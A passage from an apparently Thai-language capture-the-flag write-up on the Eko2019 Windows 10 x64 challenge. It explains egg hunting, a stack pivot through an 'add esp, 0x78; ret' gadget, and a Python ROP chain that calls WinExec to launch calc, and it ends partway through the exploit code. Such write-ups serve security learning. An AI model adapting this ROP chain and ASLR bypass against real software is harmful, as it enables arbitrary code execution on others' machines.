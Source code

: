     วิธีการก็เหมือนกันการที่เราทำ Egg hunting ใน Shellcode เลยแต่เราเปลี่ยนมาทำใน Exploit เราแทน โดยเราจะแปะ egg ไว้หน้า Payload ของเราและทำการ Loop ไปใน Range ของ StackBase และ StackLimit จนกว่าจะเจอ egg ซึ่งเมื่อเจอเราก็สามารถคำนวนตำแหน่งต่าง ๆ ของ Payload เราได้

5. **Trigger Buffer Overflow ด้วย Stack Pivot**

    เราใช้ Gadget `0x51` ในการ Trigger Buffer Overflow ซึ่งจะทำการ Push ค่า RCX ลงไปใน Stack และทำการ ret นั้นหมายความว่าเราสามารถควบคุม RIP ได้จาก Gadget นี้
    ปกติเวลาเราทำ Buffer Overflow เนี่ยเราจะทำการ Input ให้เยอะกว่า Buffer แล้วให้ค่ามันไปทับที่ Ret Address

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%209.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%209.png)

    เอารูปมาจากสไลด์สมัยฝึกงานที่ Secure-D ใช้คุ้มจัด :P

    แต่ครั้งนี้เราไม่สามรถทำแบบนั้นได้ เพราะโปรแกรมจะ Crash และอีกอย่างคือเราสามารถ Input ได้แค่ 8 Bytes (จาก push rcx)

    สิ่งที่เราทำคือเราทำการเพิ่มค่า `rsp` ขึ้นมาแทนโดยใช้ Gadget นี้ 

    ```python
    # 0x14000158c: add esp, 0x78 ; ret  ;  (1 found) eko2019.exe
    ```

    เพราะว่าก่อนที่เราจะ `ret` เนี่ย `rsp` ของเราอยู่ห่างจากตำแหน่งของ msg_buf ที่ `0x68` Bytes เราต้องหา Gadget ที่เพิ่มค่าของ `rsp` ได้มากกว่า `0x68` Bytes (ถ้าลองไปอ่าน Writeup ของคนอื่นดูจะเห็นว่าแทบทุกคนใน Gadget นี้ เพราะใน Eko2019.exe มี Gadget นี้ตัวเดียวจริง ๆ ที่ผ่านเงื่อนไข)

    ```
    						V------- RSP 
    ["A"*0x10]["XXXXX..."]
    ```

    จากนั้นเราทำการ ROP เพื่อเปิดเครื่องคิดเลข

    ```python
    pop_rcx = p64(kernel32+0x27803)
    xor_rax_rax = p64(ImageBaseAddress+0x8c41)
    pop_rdx = p64(kernel32+0x1c450)
    calc_addr = p64(u64(msg_buf_addr)+0x38)
    pop_rsp = p64(ImageBaseAddress+0x1fd7)
    add_esp_0x78 = p64(ImageBaseAddress+0x158c)
    add_esp_0x58 = p64(ImageBaseAddress+0x1164)
    add_esp_0x28 = p64(ImageBaseAddress+0x160c)
    add_esp_0x10 = p64(ImageBaseAddress+0x8789)
    add_esp_0x38 = p64(ImageBaseAddress+0x2e71)

    s = connect()
    s.send(craft_header())

    msg = b"\x00\x00\x00\x00\x00\x00\x00\x00" # pop the calc
    msg += b"\x00"*8

    # R O P 🤟😎🤟 
    msg += pop_rcx
    msg += calc_addr
    msg += xor_rax_rax
    msg += pop_rdx
    msg += p64(1)
    # msg += b"B"*(0x8)
    msg += b"\x63\x61\x6c\x63\x00\x00\x00\x00"
    msg += b"A"*(0x38-0x8) # Alignment for add rsp, 0x38
    msg += p64(winExec) 